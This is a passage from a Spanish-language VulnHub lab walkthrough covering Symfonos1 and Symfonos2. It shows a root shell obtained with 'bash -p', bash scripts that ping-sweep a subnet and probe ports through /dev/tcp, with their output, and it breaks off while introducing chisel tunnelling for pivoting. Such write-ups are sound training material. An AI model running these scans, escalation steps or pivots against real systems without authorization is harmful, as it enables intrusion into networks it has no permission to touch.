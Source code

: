 Lanzamos bash con privilegios de root con `bash -p`

```ruby
bash-4.4$ bash -p
bash-4.4# whoami
root
```

Hemos completado la máquina **Symfonos1** de VulnHub!!

### Reconocimiento (Symfonos2)

* * *

Iniciamos el reconocimiento de la máquina `Symfonos2`. Necesitamos saber su IP y los puertos abiertos que tiene esta máquina. Para ello nos haremos un pequeño script en bash el cual nos ayudará con la tarea. Sabiendo que la IP de la máquina Symfonos en el segmento es 10.10.0.141 vamos a escanear todas las IP en el segmento `10.10.0.0/24`

```bash
#!/bin/bash

for i in $(seq 1 254); do
        timeout 1 bash -c "ping -c 1 10.10.0.$i" &>/dev/null && echo "[+] Host 10.10.0.$i - ACTIVO" &
done; wait
```
```bash
bash-4.4# ./hostDiscovery.sh 
[+] Host 10.10.0.1 - ACTIVO
[+] Host 10.10.0.137 - ACTIVO
[+] Host 10.10.0.141 - ACTIVO
```
Ya sabemos que la IP de la máquina `Symfonos2` es la 10.10.0.137. Ahora procedemos a enumerar los puertos abiertos mediante otro script en bash

```bash
#!/bin/bash

for port in $(seq 1 65535); do
        timeout 1 bash -c "echo '' > /dev/tcp/10.10.0.137/$port" 2>/dev/null && echo "[+] Port $port - OPEN" &
done; wait
```

```bash
bash-4.4# ./portDiscovery.sh 
[+] Port 22 - OPEN
[+] Port 21 - OPEN
[+] Port 80 - OPEN
[+] Port 139 - OPEN
[+] Port 445 - OPEN
```
A partir de este punto para trabajar más cómodamente vamos a crear un túnel por el cual nos vamos a poder acceder a la máquina `Symfonos2` desde nuestra equipo atacante a pesar de no tener conexión directa al no estar en el mismo segmento. Para esta tarea utilizaremos la herarmienta `chisel` la cual debemos subir a la máquina `Symfonos` que es la que está en el mismo segmento que la `Symfonos2`. Los ejecutaremos de la siguiente forma
